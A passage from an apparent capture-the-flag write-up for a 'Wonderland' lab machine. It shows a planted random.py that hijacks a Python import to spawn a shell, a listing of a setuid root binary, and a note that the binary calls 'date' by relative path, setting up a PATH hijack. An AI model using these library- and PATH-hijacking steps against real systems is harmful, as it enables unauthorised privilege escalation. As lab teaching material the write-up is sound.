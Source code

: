 ```python
# random.py (attempt to get shell)
import pty
def choice(input):
    print("Thanks for your input: %s " % (input))
    pty.spawn("/bin/sh")
    break
```

Above works, and we get shell as rabbit.

```shell
## After spawning shell as rabbit
$ whoami
rabbit
```

## Get shell as Hatter

Upgraded shell to bash

```shell
$ bash
rabbit@wonderland:~$
```

Moved to /home/rabbit; found root owned executable, TeaParty.

```shell
rabbit@wonderland:~$ cd /home/rabbit/
rabbit@wonderland:/home/rabbit$ ls -lah
total 40K
drwxr-x--- 2 rabbit rabbit 4.0K May 25 17:58 .
drwxr-xr-x 6 root   root   4.0K May 25 17:52 ..
lrwxrwxrwx 1 root   root      9 May 25 17:53 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit  220 May 25 03:01 .bash_logout
-rw-r--r-- 1 rabbit rabbit 3.7K May 25 03:01 .bashrc
-rw-r--r-- 1 rabbit rabbit  807 May 25 03:01 .profile
-rwsr-sr-x 1 root   root    17K May 25 17:58 teaParty
```

TeaParty is an _ELF_? File.

```shell
?ELF^B^A^A^@^@^@^@^@^@^@^@^@^C^@>^@^A^@^@^@�^P^@^@^@^@^@^@@^@^@^@^@^@^@^@0:^@^$
^@^@^@^A^@^@^@^F^@^@^@^@^@�^@^@^@^@^@
^@^@^@^@^@^@^@�e�m^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@Z^@^@$
^@^@^@^@^@^@^@^@^@^@^@^X@^@^@^@^@^@^@^G^@^@^@^B^@^@^@^@^@^@^@^@^@^@^@ @^@^@^@^@$
The Mad Hatter will be here soon.^@^@^@^@^@/bin/echo -n 'Probably by ' && date $
^@^@^@^@^@^@^@�^@^@^@^@^@^@^@^K^@^@^@^@^@^@^@^X^@^@^@^@^@^@^@^U^@^@^@^@^@^@^@^@$
^@�^E^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^C^@^K^@^@^P^@^@^@^@^@^@^@^@^@^@^@^@^@$

```

Notably, the file calls `date`. We can probably exploit that. On running, we get the following.

```
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 28 Sep 2020 22:59:34 +0000
Ask very nicely, and I will give you some tea while you wait for him
```
